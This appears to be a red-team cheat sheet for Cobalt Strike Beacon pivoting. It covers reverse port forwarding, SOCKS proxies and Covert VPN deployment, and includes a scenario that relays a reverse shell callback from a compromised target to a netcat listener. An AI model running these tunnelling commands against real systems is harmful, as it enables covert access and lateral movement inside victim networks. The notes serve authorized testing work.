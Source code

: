 # Cobalt Strike

## 01 - Rportfwd (Reverse Port Forwarding)

### 1.1 - Help Menu

To bind ports for the server side.

```
beacon> help rportfwd
Use: rportfwd [bind port] [forward host] [forward port]
     rportfwd stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port and use Beacon
to relay traffic between the two connections.
```

To bind ports for the operator side.

```
beacon> help rportfwd_local
Use: rportfwd_local [bind port] [forward host] [forward port]
     rportfwd_local stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port, via your
Cobalt Strike client, and use Beacon to relay traffic between the two connections.
```

### 1.2 - Usage

#### 1.2.1 - Syntax

```
beacon> rportfwd <bind_port> <forward_host> <forward_port>

beacon> rportfwd stop <bind_port>
```

### 1.3 - Scenarios

#### 1.3.1 - Shell Handler Reverse Callback Session

```
beacon> rportfwd_local add -b 0.0.0.0:5986 -r <compromised_target_IP>:5986

beacon> rportfwd_local 5986 <compromised_target_IP> 5986

$ nc -lnvp 5986
```

## 02 - SOCKS Proxy

### 2.1 - Help Menu

```
beacon> help socks
Use: socks [stop]
     socks [port]
     socks [port] [socks4]
     socks [port] [socks5]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password] [enableLogging|disableLogging]

Starts a SOCKS4a (default) or SOCKS5 server on the specified port.
This server will relay connections through this Beacon.

SOCKS5 servers can be configured with NoAuth authentication (default),
User/Password authentication, and some additional logging.

SOCKS5 Servers currently do not support GSSAPI authentication,
UDP Association, and IPV6.

Use socks stop to stop the SOCKS servers and terminate existing connections.

Traffic will not relay while Beacon is asleep. Change the sleep time with the
sleep command to reduce latency.
```

### 2.2 - Usage

Start SOCKS4A Proxy server.

```
beacon> socks <PORT> socks4
```

Start SOCKS5 Proxy server with or without authentication. You can optionally enable logging when tunneling.

```
beacon> socks <PORT> socks5 <enableNoAuth | disableNoAuth> [username] [password] [enableLogging | disableLogging]
```

Refer to [[Proxychains]]

## 03 - Convert VPN Tunnel

Note: You must have elevated privileges on the windows target.

### 3.1 - Help Menu

```
beacon> help covertvpn
Use: covertvpn [interface] [ip address]

Deploy a Covert VPN to the target's system. You must have administrator
privileges for the client to work. 

Setup an [interface] through Cobalt Strike -> VPN Interfaces. The 
[ip address] is the IP address of the target interface you want to deploy
the VPN client to.
```

### 3.2 - Usage

```
beacon> covertvpn phear0 <new_IPv4_address>

userware@hackware-os:~$ sudo ip address add <new_IPv4_address>/24 dev phear0
```